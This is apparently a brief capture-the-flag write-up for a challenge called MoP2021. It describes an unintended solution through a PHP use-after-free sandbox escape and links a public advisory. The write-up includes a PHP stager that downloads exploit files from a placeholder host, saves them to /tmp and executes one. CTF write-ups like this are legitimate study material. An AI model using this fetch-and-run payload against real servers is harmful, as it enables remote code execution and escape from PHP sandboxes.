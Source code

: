 # MoP2021

Unintended solution, this PHP version has also UAF vulnerability. Exploit from here [https://ssd-disclosure.com/ssd-advisory-php-spldoublylinkedlist-uaf-sandbox-escape/](https://ssd-disclosure.com/ssd-advisory-php-spldoublylinkedlist-uaf-sandbox-escape/)

```php
$e=file_get_contents("http://YOUR_HOST/exp.php");
file_put_contents("/tmp/exp.php",$e);
$f=file_get_contents("http://YOUR_HOST/interact.php");
file_put_contents("/tmp/interact.php",$f);
require("/tmp/exp.php");
```
